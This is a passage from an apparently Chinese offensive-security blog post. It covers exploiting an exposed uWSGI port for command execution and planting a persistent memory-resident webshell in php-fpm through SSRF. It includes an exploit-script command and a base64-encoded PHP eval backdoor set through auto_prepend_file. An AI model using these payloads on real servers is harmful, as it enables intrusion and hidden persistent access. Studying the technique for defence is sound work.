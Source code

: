 ```c
	uwsgi_run_command(url, NULL, cpipe[1]);
	char *buffer = uwsgi_read_fd(cpipe[0], size, add_zero);
	close(cpipe[0]);
	close(cpipe[1]);
	return buffer;
}
```

其中存在exec协议，结合前面的`UWSGI_FILE`变量，可以导致RCE

属于是和上面php-fpm无限类似，我们也可以找到一个可以访问到的uWSGI端口（uWSGI协议）并对其发送uWSGI协议的payload即可

例如目标主机上是这样的

```bash
uwsgi --socket :8001 --module project.wsgi
```

可以利用[uwsgi_exp.py](https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py)嗦

```bash
python uwsgi_exp.py -u x.x.x.x:8001 -c "echo '1111' > /tmp/test"
```

## php-fpm做内存马

内存马与常规的webshell最显著的区别在于删除上马凭借的文件后依旧存在于当前进程中，除非重启程序；抽象出我们的需求：

1. 让后门代码在内存中驻留
2. 可以通过正常的请求手段触发执行

对于第一点，本身我们的fastcgi(fpm)就是常驻内存的（也是优于传统cgi的地方），并且在一次fastcgi请求中经过`PHP_VALUE`或`PHP_ADMIN_VALUE`修改的php配置值在此fpm的生命周期内都会被保留下来

所以我们可以继续沿用上面攻击php-fpm的方法

```
'PHP_VALUE': 'auto_prepend_file = php://input'
```

但是这样的`php://input`需要解析每一次的代码，对于内存马来说相当失败，我们把它换成data协议固定下来

假设这里是**SSRF攻击本地php-fpm**的场景，我们继续用上面的脚本，稍作修改

- post换为get（不需要解析php://input

- `auto_prepend_file = \"data:;base64,PD9waHAgQGV2YWwoJF9SRVFVRVNUW3Rlc3RdKTsgPz4=\"`

其余的不变，依旧要指定一个服务端已存在的文件，之后通过这个`auto_prepend_file`就可以植入内存马

不过这样的方案也有一定的局限性，它是和服务端的php-fpm worker进程绑定的，如果服务器上有多个worker进程，我们需要多发送几次之前的请求，才可以让payload感染每一个进程

另一个需要注意的点是php-fpm.conf的一个配置项`pm.max_requests`，它定义了每一个 worker 进程最大处理多少请求，就会自动重启，避免内存泄漏，但是一旦重生我们的内存马也会失效，还好默认是0

我们可以根据wofeiwo师傅之前写的[fcgi_jailbreak.php](https://gist.github.com/wofeiwo/4f41381a388accbf91f8#file-fcgi_jailbreak-php)改造出fpm内存马一把梭的脚本，具体修改的地方就是上面的`php://input`改为一句话马

![image-20220913144342599.png](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20220913144342599.png)
